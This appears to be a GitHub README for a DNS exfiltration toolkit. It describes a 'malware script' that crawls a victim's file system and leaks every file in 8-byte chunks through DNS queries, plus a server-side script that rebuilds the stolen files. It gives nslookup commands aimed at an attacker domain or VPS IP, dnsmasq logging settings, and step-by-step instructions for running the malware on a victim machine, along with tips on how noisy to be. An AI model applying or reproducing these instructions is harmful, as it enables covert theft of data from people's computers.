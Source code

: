 # DnsExfiltration

I do not take any responsibility for your usage

**First you need to know how a DNS works and what DNS Exfiltration stands for...**

There are two scripts:
	
	1) Malware script that steal all the files from the PC that runs it
	2) DNS server script that recomposes all the victim files 


The first script goes through the file system and It "slowly" send a part of this to a malicious DNS server. I say slowly because for each DNS query this script exfiltrate 8 byte of information.

if you are authoritative for a certain domain you have to set the script in order to execute:
	
	:~$ nslookup x.payload."yourDomain"
	
	for example:
	
	:~$ nslookup x.payload.xor.com

if You are not authoritative, You have just to configure a VPS like a DNS query forwarder and then set the script to make it run:

	:~$ nslookup x.payload."oneDomanin" "MaliciousVpsIP"

	for example:

	:~$ nslookup x.payload.xor.com 172.50.100.150


The payload length is more of 8 byte but It contains 8 byte of one file content + the file part number, the file part number is used to recompose the file parts on the DNS:
	
	A payload may be one of this:
		0 + fileName
		1 + first 8 byte of the file
		2 + the next 8 byte of the file
		3 + again 8 byte ....

From these payloads the malicious DNS script will be able to create and fill the exfiltrated file





## CONFIGURE DNS QUERY FORWARDER:
If you as me can not go to the Delegation Authority to become authoritative for a certain domain, You have to configure a VPS like a DNS query forwarder. I have used 'dnsmasq' demon, you have to configure it:
	
	Open /etc/dnsmasq.conf and append:
		log-queries
		log-facility=/tmp/dnsmasq.log
	These tells dnsmasq to save all the DNS query in a specific file that will be read by the DNS server side script





## HOW TO RUN:
1) Add your domain or the VPS IP in the "exfiltrator.py" malware script.
2) If you are authoritative configure your DNS, if you are not I suggest You to create a VPS and configure dnsmaq as I explain before.
3) Configure the right path in the "composer.py" DNS side script. You have to tell the script where It has to read all the query log. Just to be sure you have understood: Write the path You have set in the DNS configuration or dnsmasq configuration.
4) To have a try, run on the DNS server "composer.py" ( **:~$ python composer.py** ) and then run (or make it run) "exfiltrator.py" ( **:~$ python exfiltrator.py** ) script on the victim machine.
5) Wait and see 

As you can see, the malware script wait 1 second for each query and wait 1 second for each file passed through the file system. These wait are here because i tested this on my slow VPS... you can remove these waiting or keep it, it depends on how much you want be loud.

As you can see from the code, this script supports 1 attack at the same time. This script does not currently work on Windows Systems because Windows use "\\" in paths, while here i use "/" (...because i wrote and tested this on and for Linux...). So if you want to use this on windows make the correct very easy changes... lol.

